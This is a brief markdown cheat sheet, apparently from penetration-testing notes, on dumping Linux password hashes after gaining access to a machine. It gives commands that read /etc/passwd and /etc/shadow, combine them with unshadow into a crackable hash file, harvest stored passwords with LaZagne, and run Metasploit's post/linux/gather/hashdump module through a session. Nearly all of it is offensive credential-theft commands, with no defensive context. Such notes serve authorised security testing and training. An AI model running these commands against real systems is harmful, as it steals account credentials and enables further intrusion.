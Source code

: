 # Hashdump

## 01 - Unix Shell

```
$ cat /etc/passwd

$ sudo cat /etc/shadow | grep '\$'

$ unshadow passwd shadow > hash.txt
```

## 02 - LaZagne

`$ ./laZagne all -password <password>`

## 03 - Metasploit

- Note: This MSF module will work either a meterpreter or a regular shell

```
msf > use post/linux/gather/hashdump

msf post(linux/gather/hashdump) > options 

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(linux/gather/hashdump) > set session <session_id>

msf post(linux/gather/hashdump) > run
```

```
meterpreter > run post/linux/gather/hashdump
```